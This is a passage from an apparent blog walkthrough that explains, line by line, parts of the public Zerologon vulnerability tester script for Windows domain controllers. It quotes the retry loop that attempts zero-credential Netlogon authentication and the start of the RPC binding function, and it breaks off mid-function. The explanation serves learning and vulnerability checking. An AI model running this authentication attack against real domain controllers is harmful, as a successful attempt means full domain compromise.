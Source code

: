 Next we skipped down to the very bottom of the script so some other variables will make sense later, Line 1 is essentially declaring a main function within Python, Line 2 we are checking for the amount of parameters, and ensuring that it's exactly 3 (zerologon\_tester.py DCNAME IP). Lines 3-5 are printing the help menu only if it's greater than 3 arguments, or less than 2 and exiting. If the required arguments are supplied, on line 8 the arguments are being passed into two variables: dc\_name, and dc\_ip. After the arguments are passed, dc\_name is being stripped of the "$" character, as the dc\_name variable shouldn't have it. The user account name should however. Afterwards, it's passing the variables two variables and an additional, modified variable into a module called "perform\_attack".

**Lines 57 - 73**
```
1.  def perform\_attack(dc\_handle, dc\_ip, target\_computer):     
2.      
3.    print('Performing authentication attempts...')
4.    rpc\_con = None
5.    for attempt in range(0, MAX\_ATTEMPTS):  
6.      rpc\_con = try\_zero\_authenticate(dc\_handle, dc\_ip, target\_computer)
7.
8.      if rpc\_con == None:
9.        print('=', end='', flush=True)
10.      else:
11.        break
12.     
13.    if rpc\_con:
14.      print('\\nSuccess! DC can be fully compromised by a Zerologon attack.')
15.    else:
16.      print('\\nAttack failed. Target is probably patched.')
17.      sys.exit(1)
```
  

Line 1 is defining where the variables are being passed into for the local function, \\\\DCNAME is being passed into the dc\_handle variable, dc\_ip is being passed into dc\_ip variable, and dc\_name is being passed into the target\_computer variable. All of which will be used later, or passed into different modules.

  

Line 4 sets the variable rpc\_con equal to none, this will be kept track of consistently to check and see if authentication is successful, if it's not, the script will continue until 2000 retries is hit. Line 5 is where the actual retries for Zero Logon occurs in the form of a for loop. Line 6 sets the rpc\_con variable to the output of a different function called "try\_zero\_authenticate" with a couple of variables being passed to it, specifically dc\_handle, dc\_ip, and target\_computer. All of which we addressed earlier. The next lines are simply checking if rpc\_con is equal to a invalid login attempt, if it is, print =, if not, print success, if 2000 retries is hit: print attack failed.

**Lines 20-25**
```
1.  def try\_zero\_authenticate(dc\_handle, dc\_ip, target\_computer):   
2.        
3.    binding = epm.hept\_map(dc\_ip, nrpc.MSRPC\_UUID\_NRPC, protocol='ncacn\_ip\_tcp')
4.    rpc\_con = transport.DCERPCTransportFactory(binding).get\_dce\_rpc()
5.    rpc\_con.connect()
6.    rpc\_con.bind(nrpc.MSRPC\_UUID\_NRPC)
```
  